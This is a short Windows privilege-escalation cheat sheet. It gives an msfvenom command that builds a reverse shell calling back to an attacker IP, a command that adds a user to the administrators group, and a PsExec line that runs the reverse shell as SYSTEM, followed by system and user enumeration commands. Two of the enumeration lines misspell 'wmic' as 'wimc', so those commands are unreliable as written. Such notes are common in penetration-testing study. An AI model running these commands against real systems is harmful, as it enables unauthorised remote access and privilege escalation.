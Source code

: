 # Spawning Administrator Shells

## msfvenom

If we can execute commands with admin privileges, a reverse shell generated by msfvenom works nicely:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```
This reverse shell can be caught using netcat or Metasploit’s own multi/handler.

## RDP

Alternatively, if RDP is available (or we can enable it), we can add our low privileged user to the administrators group and then spawn an administrator command prompt via the GUI.

```
net localgroup administrators <username> /add
```

## Admin -> SYSTEM
To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals [PsExec](https://docs.microsoft.com/enus/sysinternals/downloads/psexec).

```
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

# Manual enumeration

## System enumeration

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wimc qfe
wimc logicaldisk get caption,description,providername
```

## User enumeration

```
whoami
whoami /priv
whoami /groups
net user
net user <netuser>
net localgroup
net localgroup <group>
```
